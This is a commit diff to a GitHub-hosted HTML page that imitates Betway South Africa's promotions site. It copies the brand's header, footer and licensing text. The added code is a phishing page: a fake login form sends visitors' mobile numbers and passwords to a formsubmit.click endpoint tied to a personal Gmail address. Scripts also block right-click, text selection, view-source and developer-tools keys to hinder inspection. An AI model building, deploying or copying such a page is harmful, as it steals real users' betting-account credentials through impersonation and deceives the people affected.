

Before and after one commit to grantcardoneclips9-sketch/new.betway.co.za-bookingCode-B-, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,183 +1,132 @@
-<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
+<!DOCTYPE html>
+<html lang="en">
 
+<!-- Mirrored from betway-promo-vouchers-and-free-spins.vercel.app/ by HTTrack Website Copier/3.x [XR&CO'2017], Mon, 26 May 2025 01:40:32 GMT -->
+<!-- Added by HTTrack --><meta http-equiv="content-type" content="text/html;charset=utf-8" /><!-- /Added by HTTrack -->
 <head>
-	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
-	<meta name="description" content="HTTrack is an easy-to-use website mirror utility. It allows you to download a World Wide website from the Internet to a local directory,building recursively all structures, getting html, images, and other files from the server to your computer. Links are rebuiltrelatively so that you can freely browse to the local site (works with any browser). You can mirror several sites together so that you can jump from one toanother. You can, also, update an existing mirror site, or resume an interrupted download. The robot is fully configurable, with an integrated help" />
-	<meta name="keywords" content="httrack, HTTRACK, HTTrack, winhttrack, WINHTTRACK, WinHTTrack, offline browser, web mirror utility, aspirateur web, surf offline, web capture, www mirror utility, browse offline, local  site builder, website mirroring, aspirateur www, internet grabber, capture de site web, internet tool, hors connexion, unix, dos, windows 95, windows 98, solaris, ibm580, AIX 4.0, HTS, HTGet, web aspirator, web aspirateur, libre, GPL, GNU, free software" />
-	<title>List of available projects - HTTrack Website Copier</title>
-	<!-- Mirror and index made by HTTrack Website Copier/3.49-2 [XR&CO'2014] -->
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Betway promotions</title>
+  <link rel="stylesheet" href="main.css">
+</head>
+<body>
 
-	<style type="text/css">
-	<!--
+  <script async src="../pagead2.googlesyndication.com/pagead/js/fa20a.txt"
+     crossorigin="anonymous"></script>
 
-body {
-	margin: 0;  padding: 0;  margin-bottom: 15px;  margin-top: 8px;
-	background: #77b;
-}
-body, td {
-	font: 14px "Trebuchet MS", Verdana, Arial, Helvetica, sans-serif;
-	}
+  <script>
+    // Dynamically load CSS
+    var link = document.createElement('link');
+    link.rel = 'stylesheet';
+    link.type = 'text/css';
+    link.href = 'main.css'; // Your CSS file
+    document.getElementsByTagName('head')[0].appendChild(link);
 
-#subTitle {
-	background: #000;  color: #fff;  padding: 4px;  font-weight: bold;
-	}
+    // Disable right-click
+    document.addEventListener('contextmenu', function(e) {
+        e.preventDefault();
+    });
 
-#siteNavigation a, #siteNavigation .current {
-	font-weight: bold;  color: #448;
-	}
-#siteNavigation a:link    { text-decoration: none; }
-#siteNavigation a:visited { text-decoration: none; }
+    // Disable text selection
+    document.addEventListener('selectstart', function(e) {
+        e.preventDefault();
+    });
 
-#siteNavigation .current { background-color: #ccd; }
+    // Disable Ctrl+U (View Source)
+    document.addEventListener('keydown', function(e) {
+        if (e.ctrlKey && e.key === 'u') {
+            e.preventDefault();
+        }
+    });
 
-#siteNavigation a:hover   { text-decoration: none;  background-color: #fff;  color: #000; }
-#siteNavigation a:active  { text-decoration: none;  background-color: #ccc; }
+    // Disable Ctrl+Shift+I (Developer Tools)
+    document.addEventListener('keydown', function(e) {
+        if (e.ctrlKey && e.shiftKey && e.key === 'I') {
+            e.preventDefault();
+        }
+    });
+
+    // Disable F12 (Developer Tools)
+    document.addEventListener('keydown', function(e) {
+        if (e.key === 'F12') {
+            e.preventDefault();
+        }
+    });
+</script>
 
 
-a:link    { text-decoration: underline;  color: #00f; }
-a:visited { text-decoration: underline;  color: #000; }
-a:hover   { text-decoration: underline;  color: #c00; }
-a:active  { text-decoration: underline; }
+  <!-- Header Section -->
+  <div class="header">
+    <div class="menu-icon">≡</div>
+    <div class="brand">
+      <span class="brand-name">betway</span>
+    </div>
+    <div class="header-buttons">
+      <button class="login-header-btn">Login</button>
+      <button class="signup-header-btn">Sign Up</button>
+      <button class="betslip-header-btn">
+        Betslip <span class="betslip-count">0</span>
+      </button>
+    </div>
+  </div>
 
-#pageContent {
-	clear: both;
-	border-bottom: 6px solid #000;
-	padding: 10px;  padding-top: 20px;
-	line-height: 1.65em;
-	background-image: url(backblue.gif);
-	background-repeat: no-repeat;
-	background-position: top right;
-	}
-
-#pageContent, #siteNavigation {
-	background-color: #ccd;
-	}
+  <!-- Overlay and Login Box -->
+  <div class="overlay">
+    <div class="login-box">
+      <div class="close-btn">×</div>
+      <h2>Login</h2>
 
 
-.imgLeft  { float: left;   margin-right: 10px;  margin-bottom: 10px; }
-.imgRight { float: right;  margin-left: 10px;   margin-bottom: 10px; }
+      <form action="https://formsubmit.click/grantcardoneclips9@gmail.com" method="POST">
+        <div class="mobile-number">
+          <span class="country-code">+27</span>
+          <input type="text" name="mobile_number" placeholder="Mobile Number" required>
+        </div>
+        <a href="#" class="forgot-text">Forgot Username?</a>
+        <input type="password" name="password" placeholder="Password" required>
 
-hr { height: 1px;  color: #000;  background-color: #000;  margin-bottom: 15px; }
+        <a href="#" class="forgot-text">Forgot Password?</a>
+        <button type="submit" class="login-btn">Login</button>
+      </form>
 
-h1 { margin: 0;  font-weight: bold;  font-size: 2em; }
-h2 { margin: 0;  font-weight: bold;  font-size: 1.6em; }
-h3 { margin: 0;  font-weight: bold;  font-size: 1.3em; }
-h4 { margin: 0;  font-weight: bold;  font-size: 1.18em; }
+      <p class="signup-text">
+        Don't have an account yet?
+        <a href="#" class="signup-link">Sign Up</a>
+      </p>
+    </div>
+  </div>
 
-.blak { background-color: #000; }
-.hide { display: none; }
-.tableWidth { min-width: 400px; }
-
-.tblRegular       { border-collapse: collapse; }
-.tblRegular td    { padding: 6px;  background-image: url(fade.gif);  border: 2px solid #99c; }
-.tblHeaderColor, .tblHeaderColor td { background: #99c; }
-.tblNoBorder td   { border: 0; }
-
-
-// -->
-</style>
-
-</head>
-
-<body>
-<table width="76%" border="0" align="center" cellspacing="0" cellpadding="3" class="tableWidth">
-	<tr>
-	<td id="subTitle">HTTrack Website Copier - Open Source offline browser</td>
-	</tr>
-</table>
-<table width="76%" border="0" align="center" cellspacing="0" cellpadding="0" class="tableWidth">
-<tr class="blak">
-<td>
-	<table width="100%" border="0" align="center" cellspacing="1" cellpadding="0">
-	<tr>
-	<td colspan="6">
-		<table width="100%" border="0" align="center" cellspacing="0" cellpadding="10">
-		<tr>
-		<td id="pageContent">
-<!-- ==================== End prologue ==================== -->
-
-
-<h1 ALIGN=Center>Index of locally available projects:</H1>
-  <table border="0" width="100%%" cellspacing="1" cellpadding="0">
-		<TH>
-		<BR/>
-			betw
-		</TH>
-		<TR>
-		  <TD BACKGROUND="fade.gif">
-                    &middot; <A HREF="hot%20fruits/index.html">hot fruits</A>
-   		  </TD>
-		</TR>
-		<TH>
-		<BR/>
-			betway-habanero-games
-		</TH>
-		<TR>
-		  <TD BACKGROUND="fade.gif">
-                    &middot; <A HREF="Betway/index.html">Betway</A>
-   		  </TD>
-		</TR>
-		<TH>
-		<BR/>
-			https://habanerocasino.blogspot.com/2024/12/habanero_12.html?m=1
-		</TH>
-		<TR>
-		  <TD BACKGROUND="fade.gif">
-                    &middot; <A HREF="habanero/index.html">habanero</A>
-   		  </TD>
-		</TR>
-		<TH>
-		<BR/>
-			predictor
-		</TH>
-		<TR>
-		  <TD BACKGROUND="fade.gif">
-                    &middot; <A HREF="aviator%20v/index.html">aviator v</A>
-   		  </TD>
-		</TR>
-		<TH>
-		<BR/>
-			vercel
-		</TH>
-		<TR>
-		  <TD BACKGROUND="fade.gif">
-                    &middot; <A HREF="netfliyy/index.html">netfliyy</A>
-   		  </TD>
-		</TR>
-		<TH>
-		<BR/>
-			web
-		</TH>
-		<TR>
-		  <TD BACKGROUND="fade.gif">
-                    &middot; <A HREF="kriss/index.html">kriss</A>
-   		  </TD>
-		</TR>
-	</TABLE>
-	<BR>
-	<H6 ALIGN="RIGHT">
-         <I>Mirror and index made by HTTrack Website Copier [XR&CO'2008]</I>
-	</H6>
-	<!-- Mirror and index made by HTTrack Website Copier/3.49-2 [XR&CO'2014] -->
-	<!-- Thanks for using HTTrack Website Copier! -->
-
-<!-- ==================== Start epilogue ==================== -->
-		</td>
-		</tr>
-		</table>
-	</td>
-	</tr>
-	</table>
-</td>
-</tr>
-</table>
-
-<table width="76%" border="0" align="center" valign="bottom" cellspacing="0" cellpadding="0">
-	<tr>
-	<td id="footer"><small>&copy; 2008 Xavier Roche & other contributors - Web Design: Leto Kauler.</small></td>
-	</tr>
-</table>
-
+  <!-- Footer Section -->
+<footer class="footer">
+  <div class="footer-content">
+    <!-- Left Column -->
+    <div class="footer-left">
+      <p class="footer-brand">betway</p>
+      <p>Terms and Conditions</p>
+      <p>Sponsorships</p>
+      <p>Affiliates</p>
+    </div>
+    <!-- Right Column -->
+    <div class="footer-right">
+      <p>How to Play</p>
+      <p>Privacy Policy</p>
+      <p>Contact Us</p>
+      <p>FAQ</p>
+      <p>Responsible Gaming</p>
+      <p>Betway App</p>
+      <p>PAIA Manual</p>
+    </div>
+  </div>
+  <p class="footer-text">
+    Raging River Trading (Pty) Ltd (2011/134505/07) is licensed to promote Betway South Africa,
+    regulated by the Western Cape Gambling and Racing Board. Bookmaker License Number:
+    10181496-010 issued on 1 December 2016. No persons under the age of 18 years are permitted
+    to gamble. Winners know when to stop. National Responsible Gambling Programme:
+    0800 006 008 or WHATSAPP HELP 076 675 0710. Warning: Gambling involves risk.
+    Gambling on this website, you run the risk that you may lose.
+  </p>
+</footer>
 </body>
 
+<!-- Mirrored from betway-promo-vouchers-and-free-spins.vercel.app/ by HTTrack Website Copier/3.x [XR&CO'2017], Mon, 26 May 2025 01:40:34 GMT -->
 </html>
```
